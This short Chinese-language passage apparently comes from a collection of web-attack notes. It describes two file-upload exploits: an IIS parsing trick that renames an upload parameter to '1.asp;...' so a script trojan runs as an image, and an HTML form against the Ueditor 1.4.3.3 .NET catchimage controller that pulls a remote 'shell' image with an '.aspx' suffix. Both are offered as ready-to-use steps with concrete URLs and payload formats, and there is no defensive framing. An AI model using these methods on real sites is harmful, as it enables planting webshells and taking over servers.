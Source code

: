 	http://www.xxxx.com/news/admin/uploadPic.asp?language=&editImageNum=1&editRemNum=41513102009204012
	很明显。图片的地址是根据RemNum后面的编号生成的。
	攻击利用:
	配合IIS的解析漏洞，把RemNum后面的数据修改为1.asp;41513102009204012，变成下面这个地址
	http://www.xxxx.com/admin/uploadPic.asp?language=&editImageNum=0&editRemNum=1.asp;41513102009204012
	然后在浏览器里打开，然后选择你的脚本木马上传，将会返回下面的地址
	uppic/1.asp;41513102009204012_2.gif
	直接打开是小马地址！
 #### Ueditor
	1.4.3.3 .net版本
	<form action="http://xx.com/ueditor/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
 	<p>shell addr: <input type="text" name="source[]" /></p>
 	<input type="submit" value="Submit" />
 	</form>
	加载一个远程图片shell
	表单在远程图片后加?.aspx
	如 http://1.1.1.1/uploads/1.gif?.aspx

